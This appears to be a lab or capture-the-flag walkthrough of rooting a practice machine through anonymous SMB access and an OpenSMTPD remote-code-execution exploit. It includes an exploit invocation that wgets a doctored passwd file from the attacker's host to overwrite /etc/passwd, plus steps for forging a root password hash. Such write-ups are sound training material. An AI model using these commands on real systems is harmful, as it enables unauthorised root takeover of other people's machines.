#### Tags
- Foothold: #smtp #opensmtpd #exploit-47984 #passwd #mkpasswd
#### Method

>[!code]- Find open ports (22, 25, 80, 445)
>**All open ports**
>- rustscan -a $ip
>
>![Pasted image 20240614052520](Pasted%20image%2020240614052520.png)
>
>___
>
>**Versions**
>- OpenSMTPD running on port 25
>  
> ![Pasted image 20240614053037](Pasted%20image%2020240614053037.png)

>[!code]- Obtain `passwd.bak` from the SMB share (port 445)
>List shares:
>- **-N** for no password (anonymous access)
>- **-L** to list available share
>
>![Pasted image 20240614052744](Pasted%20image%2020240614052744.png)
>
>___
>
>Connect to the **backup** share and download the **passwd.bak** file
>![Pasted image 20240614052852](Pasted%20image%2020240614052852.png)
>
>>[!code] passwd.bak
>>![Pasted image 20240614052952](Pasted%20image%2020240614052952.png)
>

>[!code]- Find an OpenSMTPD exploit (port 25)
>Searchsploit OpenSMPTD
>![Pasted image 20240614053211](Pasted%20image%2020240614053211.png)

>[!exploit]- The exploit allows for RCE; we can upload a malicious copy of `/etc/passwd`

>[!code]- Alter the download `passwd.bak` file to include a malicious **root** user
>Create a new hash of a password that we know:
>```bash
>mkpasswd -m md5 -s
>```
>![Pasted image 20240614053712](Pasted%20image%2020240614053712.png)
>
>___
>
>Edit **passwd.bak** and edit the root user within it:
>![Pasted image 20240614053841](Pasted%20image%2020240614053841.png)

>[!code]- Use the exploit to replace its original passwd file with our malicious `passwd.bak` file
>```bash
>python 47984.py 192.168.236.71 25 'wget 192.168.45.213/passwd -O /etc/passwd'
>```
>![Pasted image 20240614054054](Pasted%20image%2020240614054054.png)

>[!code]- SSH to the victim as root using the password in the malicious `passwd` file
>![Pasted image 20240614054235](Pasted%20image%2020240614054235.png)

>[!success]- Obtain proof.txt
>![Pasted image 20240614054309](Pasted%20image%2020240614054309.png)

